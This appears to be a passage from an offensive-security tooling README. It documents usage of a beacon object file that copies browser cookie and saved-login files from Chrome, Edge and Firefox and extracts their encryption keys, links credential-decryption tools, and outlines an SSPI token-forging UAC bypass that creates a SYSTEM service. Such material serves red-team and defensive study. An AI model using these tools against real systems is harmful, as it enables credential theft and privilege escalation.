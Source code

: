 Decrypt Firefox Cookies and Stored Credentials: https://github.com/lclevy/firepwd

Decrypt Chrome and Edge Cookies and Stored Credentials: https://github.com/KingOfTheNOPs/cookie-monster/blob/main/decrypt.py

*Credits:*

[@KingOfTheNOPs](https://x.com/kingofthenops) -> https://github.com/KingOfTheNOPs/cookie-monster

```
[*] Usage: cookie_monster.o [ chrome || edge || system <Local State File Path> <PID> || firefox || chrome-cookies <PID> || chrome-login-data <PID> || edge-cookies <PID> || edge-login-data <PID> ] [<Output Dir>] [--cookie-only] [--key-only] [--login-data-only]

[*] Available modes:
    chrome               looks at all running processes and handles, if one matches chrome.exe it copies the handle to cookies and then copies the file to the CWD
    edge                 looks at all running processes and handles, if one matches msedge.exe it copies the handle to cookies and then copies the file to the CWD
    system               Decrypt chromium based browser app bound encryption key without injecting into browser. Requires path to Local State file and PID of a user process for impersonation
    firefox              looks for profiles.ini and locates the key4.db and logins.json file
    chrome-cookies       using the provided chrome PID to look for the specified process with a handle to cookies is known, specifiy the pid to duplicate its handle and file
    chrome-login-data    using the provided chrome PID to look for the specified process with a handle to Login Data is known, specifiy the pid to duplicate its handle and file
    edge-cookies         using the provided edge PID to look for the specified process with a handle to cookies is known, specifiy the pid to duplicate its handle and file
    edge-login-data      using the provided edge PID to look for the specified process with a handle to Login Data is known, specifiy the pid to duplicate its handle and file

[*] Available Options:
    --key-only           only retrieve the app bound encryption key. Do not attempt to download the Cookie or Login Data files.
    --cookie-only        only retrieve the Cookie file. Do not attempt to download Login Data file or retrieve app bound encryption key.
    --login-data-only    only retrieve the Login Data file. Do not attempt to download Cookie file or retrieve app bound encryption key.

[*] Examples (example output dir is 'C:\temp\'):
    cookie-monster chrome "C:\temp\"
    cookie-monster edge "C:\temp\"
    cookie-monster system "C:\Users\<USER>\AppData\Local\<BROWSER>\User Data\Local State" <PID> "C:\temp\"
    cookie-monster firefox "C:\temp\"
    cookie-monster chrome-cookies <PID> "C:\temp\"
    cookie-monster chrome-login-data <PID> "C:\temp\"
    cookie-monster edge-cookies <PID> "C:\temp\"
    cookie-monster edge-login-data <PID> "C:\temp\"
```


## SSPI UAC Bypass
This COFF forges a token from a fake network authentication though SSPI Datagram Contexts.
It will then impersonate the forged token and use a CreateSvcRpc call (by @x86matthew) to create a new SYSTEM service.
